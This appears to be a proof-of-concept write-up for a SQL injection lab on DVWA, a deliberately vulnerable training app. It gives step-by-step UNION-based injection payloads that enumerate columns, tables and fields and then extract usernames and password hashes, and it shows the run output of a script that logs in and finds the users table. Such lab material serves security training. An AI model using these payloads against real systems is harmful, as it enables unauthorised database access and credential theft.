






# PoC
- determine the number of columns
```sql
' ORDER BY 2#
```
the database has 2 columns because when we were determined 3 number of columns, it has shown the error message.


- finding columns with a useful data type
```sql
' UNION SELECT 'test', NULL# => the column contains string/text data type
```



- check version and database
```sql
' UNION SELECT version(), NULL#
' UNION SELECT database(), NULL#
```


- retrieve table name from database
```bash
' UNION SELECT NULL, table_name FROM information_schema.tables#
```


- retrieve column name from table
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'users'#
```


- extract sensitive information from database
```bash
' UNION SELECT user, password FROM users#
```


- This script is determing table name
```bash
$ python3 dvwa_sqli_table_name.py 

    >> DVWA SQL Injection - sqli determines table name
    >> by twseptian

[*] Usage: dvwa_sqli_table_name.py <url>
[*] Example: dvwa_sqli_table_name.py www.example.com

$ python3 dvwa_sqli_table_name.py "http://172.17.0.2"

    >> DVWA SQL Injection - sqli determines table name
    >> by twseptian

[*] Grabbing user token & session id...
[✓] user token: bbc5b080d17a62ebb9ea2f82c5547c3d
[✓] session id: 0n0svilegdqs7f4noqp3rjmha7
[✓] Success login to Admin page
[*] Looking for a users table...
[✓] Found the users table name: Surname: users
```
